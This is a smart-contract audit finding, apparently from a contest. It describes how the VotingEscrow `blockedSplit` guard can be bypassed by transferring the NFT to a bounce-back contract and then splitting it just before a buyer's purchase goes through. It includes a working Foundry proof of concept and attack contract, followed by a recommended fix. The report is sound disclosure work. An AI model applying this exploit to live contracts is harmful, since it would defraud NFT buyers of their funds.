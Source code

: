 Broad Cherry Viper

High

# A malicious user can reduce the value of an NFT before selling it

## Summary

A malicious user can front-run transactions to reduce the value of an NFT, causing the buyer to lose all their funds.

## Vulnerability Detail

When `blockedSplit` is set to true, it is intended to prevent the sale of an NFT by reducing its value through the `split` function. However, calling `safeTransferFrom` or `transferFrom` is not affected by this and will reset `blockedSplit` to false after execution.

A malicious user can exploit this by using `safeTransferFrom` or `transferFrom` to set `blockedSplit` to false and immediately send the NFT back to the user. Then, they can call `split` right away, causing the NFT's value to be lower than its actual worth when other users attempt to purchase it.

Consider the following scenario:
1. User A wants to sell NFT A (worth $100) and creates two contracts (A and B). Contract A fully supports the functionalities of `votingEscrow` and the target `nft marketplace`, and combines the calls to `safeTransferFrom` and `split` into a single function. Contract B, upon receiving the NFT, will transfer it back via `onERC721Received`.

2. User A lists NFT A for sale in the `marketplace` through contract A.

3. User B wants to buy NFT A and initiates the `buy` transaction.

4. User A detects User B's attempt to purchase NFT A and, through a front-running transaction, sends NFT A from contract A to contract B. Contract B, upon receiving the NFT, sends it back, resetting `blockedSplit` to false. Then, User A calls `split`, reducing the NFT's value to $0.1.

5. Finally, User B ends up purchasing an NFT worth $0.1, losing a significant amount of money.



<details>

<summary>Coded Poc</summary>

### VotingEscrow.t.sol

bypass block_split check

```solidity
    function testHackSplitBlock() public {
        flowDaiPair.approve(address(escrow), 10*TOKEN_1);
        uint256 lockDuration = 7 * 24 * 3600; // 1 week
        escrow.create_lock(10*TOKEN_1, lockDuration);

        uint[] memory amounts = new uint[](2);
        amounts[0] = 3*TOKEN_1;
        amounts[1] = 7*TOKEN_1;

        int amount;
        uint duration;
        (amount, duration) = escrow.locked(1);

        escrow.block_split(1);

        vm.expectRevert("split blocked");
        escrow.split(1,amounts[1]);

        // escrow.transferFrom(address(owner),address(owner2),1);
        AttackMock attacker = new AttackMock(address(escrow));
        console.log("before token id: %d, owner:%d", 1, uint160(escrow.ownerOf(1)));
        escrow.safeTransferFrom(address(owner), address(attacker), 1);
        console.log("after token id: %d, owner:%d", 1, uint160(escrow.ownerOf(1)));

        escrow.split(1,amounts[1]);
        (amount, duration) = escrow.locked(1);
        assertEq(amount, 3e18);
        assertEq(duration, lockDuration);
    }
```



### AttackMock.sol

```solidity
pragma solidity 0.8.13;

import "solmate/test/utils/mocks/MockERC20.sol";
import "contracts/Gauge.sol";
import "contracts/Minter.sol";
import "contracts/Pair.sol";
import "contracts/factories/PairFactory.sol";
import "contracts/Router.sol";
import "contracts/Flow.sol";
import "contracts/VotingEscrow.sol";
import "utils/TestStakingRewards.sol";
import "utils/TestVotingEscrow.sol";
import {IERC721Receiver} from "openzeppelin-contracts/contracts/token/ERC721/IERC721Receiver.sol";
import "../contracts/interfaces/IVotingEscrow.sol";

contract AttackMock is IERC721Receiver {
    IVotingEscrow escrow;
    constructor(address _escrow) {
        escrow = IVotingEscrow(_escrow);
    }

    function onERC721Received(
        address _operator,
        address _from,
        uint256 _tokenId,
        bytes memory _data
    ) public returns(bytes4) {
        escrow.transferFrom(address(this),address(_operator), _tokenId);
        return this.onERC721Received.selector;
    }

    fallback () external payable {}
    receive() external payable {}
}

```

</details>

## Impact

In the NFT marketplace, users purchasing NFTs will lose nearly all their money.

## Code Snippet

https://github.com/sherlock-audit/2024-06-velocimeter/blob/63818925987a5115a80eff4bd12578146a844cfd/v4-contracts/contracts/VotingEscrow.sol#L315-L342

## Tool used

Manual Review

## Recommendation

Add a check for `ownership_change` in `_transferFrom` to prevent multiple NFT transfers within the same block.